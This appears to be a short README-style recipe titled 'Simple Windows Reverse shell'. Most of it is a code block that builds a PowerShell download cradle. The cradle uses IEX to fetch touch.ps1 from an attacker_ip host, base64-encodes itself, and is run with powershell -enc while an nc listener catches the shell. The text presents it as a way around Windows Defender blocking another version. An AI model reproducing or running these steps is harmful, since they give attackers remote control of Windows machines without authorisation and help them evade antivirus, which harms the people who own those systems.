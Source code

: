# Simple Windows Reverse shell 
If this not working try the another one that is blocked by defender...

```language
nano touch.ps1

nano cradle

cradle content:-    IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000/touch.ps1")

cat cradle | iconv -t utf-16le | base64 -w0; echo

python3 -m http.server 8000

rlwrap nc -lvnp 9001

powershell -enc <encoded_code>
```
